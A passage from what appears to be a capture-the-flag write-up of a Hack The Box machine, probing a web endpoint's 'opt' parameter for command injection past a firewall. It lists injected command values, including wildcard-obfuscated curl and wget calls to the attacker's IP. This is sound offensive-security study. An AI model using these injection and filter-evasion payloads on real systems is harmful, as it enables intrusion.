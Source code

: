     * Closing connection 0
    

If i put in something else for `opt` without the ‘:

    
    
    root@kali# curl -v "http://fluxcapacitor.htb/sync?opt=ls" -x http://127.0.0.1:8080
    *   Trying 127.0.0.1:8080...
    * Connected to (nil) (127.0.0.1) port 8080 (#0)
    > GET http://fluxcapacitor.htb/sync?opt=ls HTTP/1.1
    > Host: fluxcapacitor.htb
    > User-Agent: curl/7.81.0
    > Accept: */*
    > Proxy-Connection: Keep-Alive
    > 
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 403 Forbidden
    < Date: Sat, 15 Jul 2023 10:10:25 GMT
    < Content-Type: text/html
    < Content-Length: 175
    < Connection: close
    < 
    <html>
    <head><title>403 Forbidden</title></head>
    <body bgcolor="white">
    <center><h1>403 Forbidden</h1></center>
    <hr><center>openresty/1.13.6.1</center>
    </body>
    </html>
    * Closing connection 0
    

Tried a bunch of different stuff, all that returns 403:

  * `http://fluxcapacitor.htb/sync?opt='echo'`
  * `http://fluxcapacitor.htb/sync?opt='echo`
  * `http://fluxcapacitor.htb/sync?opt='pwd`
  * `http://fluxcapacitor.htb/sync?opt='/bin/ls`
  * `http://fluxcapacitor.htb/sync?opt='/usr/bin/curl+10.10.15.147`
  * `http://fluxcapacitor.htb/sync?opt='wget`
  * `http://fluxcapacitor.htb/sync?opt=wget`

Other stuff returns the time (api working correctly), and these have the same
Server: SuperWAF header in the response:

  * `http://fluxcapacitor.htb/sync?opt=''`
  * `http://fluxcapacitor.htb/sync?opt='.'`
  * `http://fluxcapacitor.htb/sync?opt='/'`

Other stuff returns an empty line:

  * `http://fluxcapacitor.htb/sync?opt='/`
  * `http://fluxcapacitor.htb/sync?opt='/b`
  * `http://fluxcapacitor.htb/sync?opt='/bin`
  * `http://fluxcapacitor.htb/sync?opt='/bin/l`
  * `http://fluxcapacitor.htb/sync?opt='/bin/l?`
  * `http://fluxcapacitor.htb/sync?opt='/usr/bin/cur?+10.10.15.147`
